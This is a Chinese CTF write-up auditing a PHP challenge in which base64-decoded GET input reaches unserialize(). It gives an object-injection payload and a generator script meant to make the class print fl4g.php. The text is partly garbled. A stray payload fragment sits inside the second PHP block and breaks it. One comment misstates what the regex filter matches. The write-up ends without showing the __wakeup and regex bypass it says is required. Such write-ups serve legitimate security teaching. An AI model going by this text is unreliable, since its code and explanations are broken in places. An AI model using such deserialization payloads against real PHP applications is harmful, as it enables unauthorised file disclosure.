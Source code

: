 这里对代码进行审计：
```
<?php 
class Demo { 
    private $file = 'index.php';  //这里首先定义file的值为index.php
    public function __construct($file) {   
        $this->file = $file;  //构造函数 __construct 接受一个参数 $file，并将私有属性 $file 设置为传入的值，所以我们在设置payload的时候应把fl4g.php传入$file
    }
    function __destruct() { 
        echo @highlight_file($this->file, true);   //在销毁对象时会自动调用，输出$file的值
    }
    function __wakeup() { 
        if ($this->file != 'index.php') {  //如果file不为index.php,那么把file的值该回index.php,所以这里我们需要做的就是令wakeup方法不执行
            //the secret is in the fl4g.php（自带的注释，提醒我们传入fl4g.php）
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) {   
    $var = base64_decode($_GET['var']);  //对$var进行base64解密，所以我们在设置payload时应该先进行base64加密再进行传参
    if (preg_match('/[oc]:\d+:/i', $var)) {   //php正则匹配，防止对象注入，如果检测到像 {s:4:'flag'}这样的参数，那么就会终止程序
        die('stop hacking!'); 
    } else {
        @unserialize($var);   //匹配失败则输出反序列化后的$var
    } 
} else { 
    highlight_file("index.php");   //否则输出index.php
} 
?>
```

所以构造payload,得到`O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}`,注意这里Demo file 中的Demo两边是有空格的:
```
<?php
file";s:8:"fl4g.php";}
class Demo {
    private $file = 'index.php';
    public function __construct($file) {
        $this->file = $file;
    }
    function __destruct(){
        echo @highlight_file($this->file,true);
    }
    function __wakeup(){
        if($this->file != 'index.php'){
            $this->file = 'index.php';
        }
    }
}
$var = new Demo("fl4g.php");
$o = serialize($var);
echo $o;
?>
```
